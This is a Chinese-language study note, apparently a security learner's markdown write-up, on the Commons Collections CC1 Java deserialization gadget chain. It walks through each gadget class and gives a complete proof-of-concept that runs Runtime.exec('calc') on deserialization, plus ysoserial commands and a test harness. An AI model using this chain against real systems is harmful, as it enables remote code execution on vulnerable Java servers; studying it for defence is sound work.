







# CC1链
【TransformedMap版本的CC1链】
## TransformedMap链
### 核心：
我们是先通过`sun.reflect.annotation.AnnotationInvocationHandler`类中的readObject方法，然后foreach语句会执行Map遍历，执行memberValues.setValue()方法，从而调用MapEntry.setValue()，然后执行TransformedMap.checkSetValue()来触发ChainedTransformer的transform方法
### 方法调用链
1. AnnotationInvocationHandler.readObject()
2. AbstractInputCheckedMapDecorator.setValue
   ```java
   public Object setValue(Object value) {
      value = parent.checkSetValue(value);
      return entry.setValue(value);
   }
   ``` 
3. TransformesMap.checkSetValue()
   ```java
   protected Object checkSetValue(Object value) {
         return valueTransformer.transform(value);
      }
   ``` 
4. ChainedTransformer.transform()
## LazyMap链 
## 是什么：CC1链是通过commons-collections库实现的反序列化RCE利用链，核心是通过InvokerTransformer反射实现任意方法调用
## LazyMap版完整调用链
```
        反序列化handler2
                |
    执行handler2.readObject()
                |
    调用memberValues.entrySet()   //memberValues是proxyMap
                |
        proxyMap.entrySet()        //根据动态代理规则，这个调用被转发给创建 proxyMap 时指定的 InvocationHandler，也就是 handler1 的 invoke() 方法。
                |
        handler1.invoke()
                |
    执行memberValues.get(member)  //handler1的memberValues是LazyMap
                |
            LazyMap.entrySet()     //触发get()方法
                |
            get(key)             //key不存在时调用factory.transform(key)创建新值
                |
        factory.transform(key)  //factory设置为ChainedTransformer时
                |
串联ConstantTransformer和多个InvokerTransformer调用方法
                |
        最终实现exec("calc");
``` 
### 各组件的作用
1. AnnotationInvocationHandler（入口）
   1. 简化版源码
      ```java
      private void readObject(ObjectInputStream s) throws IOException, ClassNotFoundException {
         s.defaultReadObject();
         // ...
         for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) { // ← 注意这里
            // ...
         }
      }  
      ```
   2. 关键点：`for (Map.Entry<String, Object> entry : memberValues.entrySet())`循环遍历memberValues并调用memberValues.entrySet(),如果这个 memberValues 就是我们的 proxyMap（动态代理对象），那么就会调用proxyMap.entrySet()
2. 动态代理调用invoke()
   1. 简化版源码
      ```java
      // 用 handler1 作为 InvocationHandler，代理 Map 接口
      Map proxyMap = (Map) Proxy.newProxyInstance(
         Map.class.getClassLoader(),
         new Class[]{Map.class},
         handler1  // ← 拦截之后转发给谁，在这里指定的
      );         
      ```
   2. 关键点：invoke() 是 InvocationHandler 接口的方法，AnnotationInvocationHandler 实现了这个接口所以重写了它。配合 Java 动态代理使用：当代理对象上的任何方法被调用时，invoke() 自动介入【由 Java 官方在 Proxy 类的设计规范和 JVM 实现中明确规定】
3. AnnotationInvocationHandler.invoke()
   1. 简化版源码
      ```java
      public Object invoke(Object proxy, Method method, Object[] args) {
         String member = method.getName();
         // ...处理 equals/toString/hashCode 等特殊方法...
      
         // 普通注解方法的处理
         Object result = memberValues.get(member); // ← 这里！
         // ...
      }         
      ``` 
   2. 关键点：invoke() 里会用方法名去 memberValues.get(methodName) 查值。如果 memberValues 是我们的 LazyMap就会调用LazyMap.get()
4. LazyMap
   1. 简化版源码
      ```java
      public Object get(Object key) {
         // create value for key if key is not currently in the map
         if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
         }
         return map.get(key);
      }     
      ```
   2. 关键点:get方法在key不存在时调用factory.transform(key)，要设置factory为ChainedTransformer
5. ChainedTransformer（串联器）
   1. 简化版源码
      ```java
      // org.apache.commons.collections.functors.ChainedTransformer
      public class ChainedTransformer implements Transformer, Serializable {
         
         private final Transformer[] iTransformers;  // Transformer 数组
         
         public ChainedTransformer(Transformer[] transformers) {
            this.iTransformers = transformers;
         }
         
         // 🔥 关键方法：串联调用
         public Object transform(Object object) {
            // 依次调用每个 Transformer
            for (int i = 0; i < iTransformers.length; i++) {
                  object = iTransformers[i].transform(object);  // 前一个的输出是后一个的输入
            }
            return object;
         }
      }         
      ```
   2. 关键点：串联 ConstantTransformer 和多个 InvokerTransformer，从 null 一路走到 exec("calc")
6. ConstantTransformer（常量返回器）
   1. 简化版源码
      ```java
      // org.apache.commons.collections.functors.ConstantTransformer
      public class ConstantTransformer implements ransformer, Serializable {
         
         private final Object iConstant;  // 固定常量
         
         public ConstantTransformer(Object constant) {
            this.iConstant = constant;
         }
         
         // 🔥 无论输入是什么，都返回固定常量
         public Object transform(Object input) {
            return iConstant;  // 返回 Runtime.class
         }
      }
      ```
   2. 关键点：`public Object transform(Object input) {return iConstant;}`无论输入是什么，都返回固定常量iConstant,设置iConstant为Runtime.class
7. InvokerTransformer（危险核心）
   1. 简化版源码a-
      ```java
      // org.apache.commons.collections.functors.InvokerTransformer
      public class InvokerTransformer implements Transformer, Serializable {
         
         private final String iMethodName;      // 方法名
         private final Class[] iParamTypes;     // 参数类型数组
         private final Object[] iArgs;          // 参数值数组
         
         public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
            this.iMethodName = methodName;
            this.iParamTypes = paramTypes;
            this.iArgs = args;
         }
         
         // 🔥 核心！反射调用任意方法
         public Object transform(Object input) {
            if (input == null) {
                  throw new IllegalArgumentException("Input object cannot be null");
            }
            try {
                  // 获取方法
                  Method method = input.getClass().getMethod(iMethodName, iParamTypes);
                  // 调用方法
                  return method.invoke(input, iArgs);
            } catch (Exception e) {
                  throw new FunctorException("InvokerTransformer: " + e.getMessage());
            }
         }
      }         
      ```
   2. 关键点：通过反射调用任意方法，参数完全可控（方法名、参数类型、参数值） 
### 核心机制：两层 Handler 的嵌套
1. handler2 (外层):这是我们最终要序列化的对象。
   它的 memberValues 字段不是一个普通的 LazyMap，而是一个动态代理对象 proxyMap。
2. proxyMap (动态代理):它是一个代理了 Map 接口的代理对象。
   它的 InvocationHandler 被设置为 handler1 (内层)。这意味着，对 proxyMap 的任何方法调用，都会被转发给 handler1 的 invoke() 方法。
3. handler1 (内层):这是另一个 AnnotationInvocationHandler 实例。
   它的 memberValues 字段才是我们真正的、带有恶意 ChainedTransformer 的 LazyMap。
### 为什么使用AnnotationInvocationHandler作为入口
1. 它实现了 Serializable：可以被序列化
2. 它的 readObject() 方法会操作 memberValues 这个 Map：会遍历 entrySet()，甚至可能调用 setValue()
3. 它对 memberValues 的类型不设防：你传入的 Map 可以是任何 Map 类型（如 TransformedMap、LazyMap）
4. 它被 JDK 内部使用：默认存在，不需要引入额外库
### 手工编写完整POC
1. 关键代码组成部分
   1. 构造一个ConstantTransformer和多个InvokerTransformer
   2. 构造ChainedTransformer将上面的Transformer串联
   3. 构造LazyMap
   4. 构造内层handler1
   5. 构造proxyMap
   6. 构造外层handler2
   7. 序列化handler2
   8. 反序列化 
2. 完整代码示例
   ```java
   import java.io.ByteArrayInputStream;
   import java.io.ByteArrayOutputStream;
   import java.io.ObjectInputStream;
   import java.io.ObjectOutputStream;
   import java.lang.reflect.Constructor;
   import java.lang.reflect.InvocationHandler;
   import java.util.HashMap;
   import java.util.Map;
   import org.apache.commons.collections.Transformer;
   import org.apache.commons.collections.functors.ConstantTransformer;
   import org.apache.commons.collections.functors.InvokerTransformer;
   import org.apache.commons.collections.map.LazyMap;
   import org.apache.commons.collections.functors.ChainedTransformer;

   public class CC1Demo {
      public static void main (String[] args) throws Exception {
      
         ConstantTransformer c=new ConstantTransformer(Runtime.class);
         InvokerTransformer i1=new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", new Class[0]});
         InvokerTransformer i2=new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null, new Object[0]});
         InvokerTransformer i3=new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
         Transformer[] ts=new Transformer[]{c,i1,i2,i3};
         ChainedTransformer chain=new ChainedTransformer(ts);

         HashMap<String, String> innermap=new HashMap<String, String>();
         Map<String,String> lazyMap=LazyMap.decorate(innermap, chain);

         Class<?> clazz=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
         Constructor<?> cons=clazz.getDeclaredConstructor(Class.class,Map.class);
         cons.setAccessible(true);
         Object h1=cons.newInstance(Override.class,lazyMap);
         InvocationHandler handler1=(InvocationHandler)h1;

         Map proxymap=(Map)java.lang.reflect.Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler1);

         InvocationHandler handler2=(InvocationHandler)cons.newInstance(Override.class,proxymap);
         
         ByteArrayOutputStream baos=new ByteArrayOutputStream();
         ObjectOutputStream oos=new ObjectOutputStream(baos);
         oos.writeObject(handler2);
         oos.flush();
         oos.close();
         baos.close();
         byte[] data=baos.toByteArray();
     
         ByteArrayInputStream bais=new ByteArrayInputStream(data);
         ObjectInputStream ois=new ObjectInputStream(bais)  ;
         ois.readObject();
         ois.close();
         bais.close();
      }
   }
   ``` 
3. 关键：
   1. InvokerTransformer只能调用传入的input所属类存在的方法，因此调用ConstantTransformer和多出调用InvokerTransformer都是为了生成下一步InvokerTransformer调用方法所需的input类型
   2. LazyMap 类虽然是 public 的，但构造方法是 protected：查找用法找到 decorate()，它是 public 的并且内部会调用 LazyMap(map, factory)：
   3. innerMap设置为空：确保遍历entryMap时不存在key从而触发get()
4. 测试：
   1. 要使用jdk8u71以下版本
   2. 成功执行命令弹出计算器证明CC1链利用成功     
### 调试观察函数调用以及参数变化
1. 设置断点：
   1. ois.readObject()
   2. this.memberValues.entrySet()
   3. 代理proxymap
   4. memberValues.get(member)
   5. lazyMap.get()
   6. ChainedTransformer
   7. ConstantTransformer
   8. InvokerTransformer
2. 开始调试，观察参数值变化和方法调用调整过程
   1. 发现在调试到AnnotationInvocationHandler.invoke()时就触发了探测，但此时程序并没有执行完成，接着执行又会按照预想的方法调用顺序在我们设置的断点处一次次停下来直到最后弹出计算器
   2. 可能的原因：当你在断点处暂停时，VSCode 的调试器会：
      1. 检查变量值：为了在"变量"窗口显示 proxyMap、lazyMap、handler1 等对象的内容
      2. 调用 toString()：调试器会自动调用这些对象的 toString() 方法来获取可读的字符串表示
      3. 调用 hashCode()：某些情况下也会调用 hashCode()
      4. 调用 getClass()：获取类信息这些调用都发生在你的代码执行之前，通过代理对象被转发到 handler1.invoke()，进而触发了 LazyMap.get() 和整个 Transformer 链。
3. 调试过程
   
   
   
   
   
   
### ysoserial生成payload
1. `cmd /c "java -jar ysoserial.jar CommonsCollections1 calc >payload.ser"`生成payload二进制文件
2. 反序列化测试程序
   ```java
   import java.io.FileInputStream;
   import java.io.ObjectInputStream;

   public class testysoserial {
      public static void main(String[] args) throws Exception {
         FileInputStream fis=new FileInputStream("payload.ser");
         ObjectInputStream ois=new ObjectInputStream(fis);
         ois.readObject();
         ois.close();
         fis.close();
      }

   }

   ``` 
3. 运行测试程序测试工具生成的payload
   ```java
   javac -cp "commons-collections-3.2.1.jar;." testysoserial.java
   java -cp "commons-collections-3.2.1.jar;." testysoserial      
   ``` 
4. 成功弹出计算器
## URLDNS链vs CC1链
